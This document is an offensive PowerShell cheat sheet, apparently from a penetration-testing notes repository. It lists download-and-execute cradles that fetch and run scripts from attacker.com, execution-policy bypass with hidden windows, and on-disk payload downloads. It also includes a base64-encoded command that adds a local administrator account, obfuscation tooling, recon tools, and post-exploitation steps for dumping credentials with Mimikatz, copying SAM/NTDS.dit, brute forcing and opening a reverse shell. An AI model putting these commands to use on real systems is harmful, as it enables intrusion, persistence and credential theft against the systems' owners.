 ## Prerequisite
* `-ExecutionPolicy bypass -Window hidden`
## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
* __Net.WebRequest__
  * `$req=[System.Net.WebRequest]::Create("<http://attacker.com/game.ps1>")`
  * `$res=$req.GetResponse()`
  * `iex ([SYstem.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`
* __System.Xml.XmlDocument__
  * `$xmldoc = New-Object System.Xml.XmlDocument`
  * `$xmldoc.Load("<remote_xml_file>")`
  * `iex $xmldoc.command.a.execute` - download and executes malicious PowerShell located inside XML document
* __Msxml2.XMLHTTP__
  * `$downloader = New-Object  -ComObject Msxml2.XMLHTTP`
  * `$downloader.open("GET","http://attacker.com/game.ps1",$false)`
  * `$downloader.send()`
  * `iex $downloader.responseText`
* __WinHttp.WinHttpRequest.5.1__
  * same as __Msxml2.XMLHTTP__

#### On-Disk
* __DownloadFile__
  * `$local_file="<C:\programdata\payload.exe>"` 
  * `New-Object Net.WebClient).DownloadFile($payload,$local_file)`
  * `& $local_file`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target

#### Tools
* https://github.com/danielbohannon/Invoke-CradleCrafter

## Obfuscation
#### Native PS
* __EncodedCommand__
  * `$command = \`net user admin1 "password!" /add; net localgroup administrators admin1 /add\``
  * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
  * `$encodedCommand = [Convert]::ToBase64String($bytes)`
  * `Write-Host $encodedCommand`
  * `cmd> powershell.exe -encodedcommand <result-from-Write-Host>`

#### Tools
* https://github.com/danielbohannon/Invoke-Obfuscation
  * `$env:PSModulePath` - get modules path; copy downlaoded modules to this location
  * `Import_module Invoke-Obfuscation`
  * `Invoke-Obfuscation`
    * `Set SCRIPTBLOCK iex (New-Object Net.WebCLient).DownloadString('<remote_file>')`
    * if applying multiple methods one after another, they pile up (and potentially go above cmd.exe character count limtiation). Use `RESET` to clear previous encodings"
   
 ## Information Gathering and Recon
 #### Tools
* __PowerSploit__
  * `Invoke-Portscan` - port scan and network mapping
  * `Get-HttpStatus` - enumerate files and directories
* __Posh-SecMod__ - https://github.com/darkoperator/Posh-SecMod
  * `Invoke-ARPScan` - arp scan
  * `Invoke-ReverseDNSLookup`
  * `Resolve-HostRecord`
  * `Resolve-DNSRecord`
  * `Get-Command -Module Posh-SecMod` - see full features ofthe tool
 
## PostExploitation
#### Tools
* __Nishang__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/samratashok/nishang
  *  __Gather__ - https://github.com/samratashok/nishang#gather
    * `Copy-VSS` - copy SAM database, NTDS.dit and contents of SYSTEM reg hive
    * `Get-Information`
    * `Get-PassHints` - dump Password Hints used on the system
    * `Invoke-Mimikatz -DumpCreds` - cump clear-text credentials
  *  __Bruteforcing__ - https://github.com/samratashok/nishang/tree/master/Scan
    * `Invoke-BruteForce` -> various bruteforcing options. See `Get-Help Invoke-BruteForce`
  *  __Shells__ - https://github.com/samratashok/nishang/tree/master/Shells
    * `Invoke-PowerShellTcp` - reverse PowerShell shell
* __PowerSploit__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/PowerShellMafia/PowerSploit
  * __PrivEsc__ - `Import-Module .\Privesc.psm1`
    * `PowerUp` 

